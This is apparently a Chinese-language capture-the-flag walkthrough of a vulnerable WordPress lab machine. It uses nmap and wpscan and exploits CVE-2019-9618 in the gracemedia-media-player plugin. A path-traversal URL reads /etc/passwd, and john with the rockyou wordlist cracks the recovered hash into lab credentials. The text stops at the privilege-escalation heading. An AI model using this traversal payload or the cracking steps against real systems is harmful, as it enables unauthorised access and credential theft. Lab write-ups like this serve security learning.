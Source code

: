 nmap 发现开放了 22、80 端口... 这里和 1 一样的...

前面做了 1 之后... 直接爆破把...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOKP4kES7fnRzG5vZLUGybhW5SaNamrPfWbKBv7yRK2rT0OnFbulBJfRw8CaT3AhZWuIWRAiaiaXgCQ/640?wx_fmt=png)

发现 tsweb 目录... 往下看可以发现，这是 wordpress CMS 架构的，可以使用 wpscan...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOKP4kES7fnRzG5vZLUGybhxm8BSzf3l98guAT2A7Rh1jWYG2sPibOy1SDwpiaoYW9LCtKY6pTKHXrg/640?wx_fmt=png)

直接上 wpscan 先...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOKP4kES7fnRzG5vZLUGybh3kAXS6WaTTbXFqoGX51qwEp7J69V72rTTtDYeNN7ICJgiaIg0sD5I4Q/640?wx_fmt=png)

熟悉的 gracemedia-media-player 插件... 谷歌查找下...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOKP4kES7fnRzG5vZLUGybhwHHMMnTQy6xLJnILUUdjhPEVA9EkvstRXJhkqaxLGjm6CQh6ftEQIA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOKP4kES7fnRzG5vZLUGybhf0fGXwteOvAicSC9s2JW3K1Huw6UsYlye9qPuicq5kcLQuBSicvIH4p5g/640?wx_fmt=png)

可以利用 CVE-2019-9618 漏洞渗透...

```
[链接](https://www.exploit-db.com/exploits/46537)
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOKP4kES7fnRzG5vZLUGybh2JXTaUmAS0nH2sH7VKeJX0VewXC01sQjicfrd1HGWJG3gR669s9IGBg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOKP4kES7fnRzG5vZLUGybhibPcRnuN8ANtrdETK3jWoLJm6qJuYica5PmFodxpnPLiaLxILJiaR9IonQ/640?wx_fmt=png)

```
http://192.168.56.144/tsweb/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../etc/passwd
发现：flag:$1$flag$vqjCxzjtRc7PofLYS2lWf/
```

这是哈希值...john 爆破下...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOKP4kES7fnRzG5vZLUGybhyAGfNXib6ztZ7ibmNaBZlDtnrM90edC7J0flVRgniatsMbqteiahbicBmJw/640?wx_fmt=png)

```
john  --wordlist=/usr/share/wordlists/rockyou.txt dayu
john --show dayu
获得账号和密码：flag，topsecret
```

![](https://mmbiz.qpic.cn/mmbiz_svg/jRoggJ2RF3BHibojhJQ8jmNderYtvTh8HkyBLp8nlK1B262IP84ZEic7el5hZ1rSy2RRjsGUQxdSGiaPFGG66pA8FnblLMZNWzA/640?wx_fmt=svg)

![](https://mmbiz.qpic.cn/mmbiz_svg/jJSbu4Te5ib8dv7tckM3eiau36jYD6r6JzUadPhLfh5pBPkc7MXuibrLRyxucMXeHZMwuc8YJbmickBgMbiaNAGWJ6u8K69OmxYXp/640?wx_fmt=svg)

二、提权

![](https://mmbiz.qpic.cn/mmbiz_svg/Iic9WLWEQMg188DeVtNKRm1TKjRbm9lMO1Sn0Nxp4ub3M6m1ib29Pg42QpAsl2KtUhGicZIM8mBLAW0BTviaOLUdwnDUBNpqgNlQ/640?wx_fmt=svg)

![](https://mmbiz.qpic.cn/mmbiz_svg/Ib5852jAyb9xjIOSr4AGdwHrOa5leGNTnFwkWXvaOsQMx7bVxQiabjjSeicggObSK25jW1K5mG6aNZia8VJuiaarScZkKOYlJP4a/640?wx_fmt=svg)
